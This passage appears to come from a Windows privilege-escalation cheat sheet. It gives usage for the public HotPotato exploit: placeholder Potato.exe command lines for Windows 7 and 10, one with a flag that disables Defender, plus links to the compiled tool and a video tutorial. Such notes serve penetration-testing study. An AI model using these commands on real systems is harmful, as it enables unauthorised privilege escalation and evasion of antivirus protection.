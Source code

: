 Now search for known exploit!


## HotPotato
Potato Privilege Escalation on Windows 7,8,10, Server 2008, Server 2012. Compiled version: ```https://github.com/foxglovesec/Potato/tree/master/source/Potato/Potato/bin/Release```

Command:
```
#windows 7
Potato.exe -ip <local ip> -cmd <command to run> -disable_exhaust true
#windows 10
Potato.exe -ip <local ip> -cmd <cmd to run> -disable_exhaust true -disable_defender true
```
Tutorial for [windows 10](https://www.youtube.com/watch?v=Kan58VeYpb8) 


I will update this documents gradually!

